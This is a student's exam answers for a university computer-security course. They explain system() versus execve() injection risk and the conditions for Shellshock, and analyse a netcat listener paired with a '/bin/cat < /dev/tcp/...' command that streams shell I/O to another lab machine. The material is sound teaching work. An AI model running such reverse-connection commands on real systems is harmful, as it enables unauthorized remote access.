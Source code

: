 ## Le Finale
## Ben Holmgren
## benjamin.holmgren1@student.montana.edu
## CSCI 476
## Due 4/27/2021 (noon)

### Task 1.1

Indeed, system() and execve() are both used to execute external programs,
but there's an important difference in how each handle data. Importantly,
since system() takes in a string passed to the shell as a command to run,
there is no seperation between a command and data. In the context of the
course material, this opens up system() calls to setuid vulnerabilities.

Contrast that to execve(), which seperates code and data in different
arguments. This has the effect of executing a program directly, and feeding
in arguments therafter. Doing so gets rid of this vulnerability in system()
calls where we could just tack on potentially unintended data following
a shell command.

### Task 1.2

The two conditions needed to exploit a shellshock vulnerability are:

* The target process must be running a vulnerable version of bash
* The payload getting parsed by the vulnerable version of bash gets inputs
by way of environment variables

### Task 1.3

If we run 'nc -l 7070', then we obtain a TCP server that listens for a
connection on port 7070.

Running '/bin/cat < /dev/tcp/10.0.2.6/7070 >&0' on machine 2, we find a 
connection on the port we were listening on with machine 1. The command calls
the standard 'cat' command, whose input device is set to the TCP connection by 
the < symbol. This sends input to the port being listened to by machine 1. 

Now we just need to figure out what this >&0 is all about. 
From referencing back to the shellshock lab, 0 represents the
standard input device. So this is telling us to redirect the output device
to be the standard input device, which is just the shell we're running on
machine 1.

I believe then that this command should
stream any inputs and outputs in the shell of machine 2
and cat them into the shell being run on machine 1. In this way, machine 1
should obtain a live stream of everything that machine 2 is doing.
It seems that whatever is output by machine 2 is redirected to the stdin device,
which has been already redirected to the TCP connection. At the same time,
whatever is input into machine 2 is redirected to the TCP connection as well by
the first part of the command.
